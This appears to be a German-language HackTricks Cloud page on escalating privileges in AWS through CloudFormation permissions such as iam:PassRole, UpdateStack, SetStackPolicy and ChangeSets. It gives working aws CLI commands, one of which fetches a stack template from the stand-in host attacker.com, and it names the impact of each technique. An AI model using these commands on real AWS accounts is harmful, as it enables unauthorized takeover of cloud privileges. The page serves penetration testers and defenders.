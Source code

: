 # AWS - Cloudformation Privilegieneskalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## cloudformation

Für weitere Informationen zu Cloudformation siehe:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf seinem Server gehostet wird, um **Aktionen unter den Berechtigungen einer bestimmten Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Auf der folgenden Seite finden Sie ein **Ausbeutungsbeispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potenzielle Auswirkungen:** Privilege Escalation zum angegebenen CloudFormation-Service-Rolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie einen **bestehenden CloudFormation-Stack missbrauchen**, um ihn zu aktualisieren und Berechtigungen zu eskalieren, wie im vorherigen Szenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich selbst die Berechtigung `UpdateStack` über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privilege Escalation zum angegebenen CloudFormation-Service-Rolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **kein `iam:PassRole`**, können Sie immer noch die verwendeten Stacks **aktualisieren** und die **IAM-Rollen missbrauchen, die sie bereits angehängt haben**. Überprüfen Sie den vorherigen Abschnitt auf ein Beispiel für den Exploit (geben Sie einfach keine Rolle in der Aktualisierung an).

Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich selbst die Berechtigung `UpdateStack` über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privilege Escalation zur bereits angehängten CloudFormation-Service-Rolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen zum **Weitergeben einer Rolle und zum Erstellen & Ausführen eines ChangeSets** kann **einen neuen CloudFormation-Stack erstellen/aktualisieren und die CloudFormation-Service-Rollen missbrauchen**, genauso wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variante des** [**CreateStack-Exploits**](./#iam-passrole-cloudformation-createstack), bei dem die **ChangeSet-Berechtigungen** verwendet werden, um einen Stack zu erstellen.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich **`ChangeSet`-Berechtigungen zu geben** und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privilege Escalation zu CloudFormation-Service-Rollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist ähnlich wie die vorherige Methode, ohne **IAM-Rollen** zu übergeben, sodass Sie einfach **bereits angehängte Rollen missbrauchen** können, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privilege Escalation zum CloudFormation-Dienstrollen, die bereits angehängt sind.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und beliebige CloudFormation-Rollen zu missbrauchen.

**Potenzielle Auswirkungen:** Privilege Escalation zu CloudFormation-Dienstrollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die `PassRole`-Berechtigung missbrauchen, um StackSets zu aktualisieren und die angehängten CloudFormation-Rollen zu missbrauchen.

**Potenzielle Auswirkungen:** Privilege Escalation zu den angehängten CloudFormation-Rollen.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
